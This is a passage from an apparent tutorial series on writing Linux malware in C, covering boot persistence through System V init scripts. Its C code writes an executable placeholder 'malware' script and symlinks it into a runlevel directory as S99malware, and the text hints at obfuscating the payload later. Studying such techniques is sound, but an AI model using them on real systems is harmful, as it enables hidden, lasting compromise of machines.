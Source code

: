 Nothing really special here. As we said, in order to interact with a file we need to open it and close it when we are done. In this case we are just writing the string passed as parameter. You surely notice the different flags used for `open` here. They are fully explanatory.... we want to append and also to write (we are not interested on reading from the file).

# Persistence root
For this case we are going to do the System V script modification. From a programming point of view there is no big difference as for all the other techniques we also need to create files or modify files, so it will be an interesting exercise for you to try to implement additional persistence solutions based on what we have learned here.

The code is once again very simple. Basic file manipulation with just a few tweaks that we will comment in a second.

```C
char script[] =
  "#!/bin/bash\n"
  "echo \"I'm malware\"\n"
  "# Doing bad things here";

int persistence_root () {
  create_from_str ("./init.d/malware", '5', script);
  return 0;
}
```


We have just added the malware script as a string in our program... you may want to obfuscate it.... but we will get to that later in this series.

Then the function to create the file and link it in the right [runlevel](https://en.wikipedia.org/wiki/Runlevel) (we chose 5 in this case for multi user graphical).

```C
int create_from_str (char *fname, char runlevel, char *str) {
  char target[1024] = "./rcX.d/S99malware";
  int fd = open (fname, O_CREAT | O_WRONLY, 0700);
  write (fd, str, strlen (str));
  close (fd);
  target[4] = runlevel;
  symlink (fname, target);
}
```

There are two main comments about this code:

* We are passing the `O_CREAT` flag to `open`. That will create the file in case it doesn't exist. We have also used the third optional parameter that allows us to specify the permissions. In this case we want our script to be executable so we can save a later call to `chmod`.
* The `symlink` system call just create a symbolic link... It works exactly the same than `ln -s origin target` in the command-line.

_NOTE:I'm creating all the files in my current development folder as I do not want to pollute my system and I'm being to lazy to setup some testing environment. Obviously, all path in the examples in this sections should start by `/etc/` and not by `./`._
